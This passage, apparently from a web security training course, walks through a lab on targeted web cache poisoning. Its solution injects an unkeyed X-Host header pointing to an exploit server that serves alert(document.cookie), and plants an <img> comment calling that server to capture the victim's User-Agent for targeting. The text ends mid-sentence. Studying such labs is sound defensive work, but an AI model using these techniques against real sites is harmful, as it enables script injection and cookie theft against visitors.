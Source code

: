 This information can also be used to construct a multi-step attack to target a specific subset of users. For example, if the attacker knows that the User-Agent header is part of the cache key, by first identifying the user agent of the intended victims, they could tailor the attack so that only users with that user agent are affected. Alternatively, they could work out which user agent was most commonly used to access the site, and tailor the attack to affect the maximum number of users that way.

### Targeted web cache poisoning using an unknown header

This lab is vulnerable to web cache poisoning. A victim user will view any comments that you post. To solve this lab, you need to poison the cache with a response that executes alert(document.cookie) in the visitor's browser. However, you also need to make sure that the response is served to the specific subset of users to which the intended victim belongs.

**Solution**

1. With Burp running, load the website's home page.
2. In Burp, go to "Proxy" > "HTTP history" and study the requests and responses that you generated. Find the *GET* request for the home page.
3. With the Param Miner extension enabled, right-click on the request and select "Guess headers". After a while, Param Miner will report that there is a secret input in the form of the *X-Host* header.
4. Send the *GET* request to Burp Repeater and add a cache-buster query parameter.
5. Add the *X-Host* header with an arbitrary hostname, such as *example.com*. Notice that the value of this header is used to dynamically generate an absolute URL for importing the JavaScript file stored at */resources/js/tracking.js*.
6. Go to the exploit server and change the file name to match the path used by the vulnerable response:

    ```/resources/js/tracking.js```

7. In the body, enter the payload *alert(document.cookie)* and store the exploit.
8. Go back to the request in Burp Repeater and set the X-Host header as follows, remembering to add your own exploit server ID:

    ```X-Host: your-exploit-server-id.web-security-academy.net```

9. Send the request until you see your exploit server URL reflected in the response and *X-Cache: hit* in the headers.
10. To simulate the victim, load the URL in the browser and make sure that the *alert()* fires.
11. Notice that the Vary header is used to specify that the *User-Agent* is part of the cache key. To target the victim, you need to find out their *User-Agent*.
12. On the website, notice that the comment feature allows certain HTML tags. Post a comment containing a suitable payload to cause the victim's browser to interact with your exploit server, for example:

```<img src="https://your-exploit-server-id.web-security-academy.net/foo" />```

13. Go to the blog page and double-check that your comment was successfully posted.
14. Go to the exploit server and click the button to open the "Access log". Refresh the page every few seconds until you see requests made by a different user. This is the victim. Copy their *User-Agent* from the log.
15. Go back to your malicious request in Burp Repeater and paste the victim's *User-Agent* into the corresponding header. Remove the cache buster.
16. Keep sending the request until you see your exploit server URL reflected in the response and *X-Cache: hit* in the headers.
17. Replay the request to keep the cache poisoned until the victim visits the site and the lab is solved

## Using web cache poisoning to exploit DOM-based vulnerabilities

Many websites use JavaScript to fetch and process additional data from the back-end. If a script handles data from the server in an unsafe way, this can potentially lead to all kinds of DOM-based vulnerabilities.

For example, an attacker could poison the cache with a response that imports a JSON file containing the following payload:
```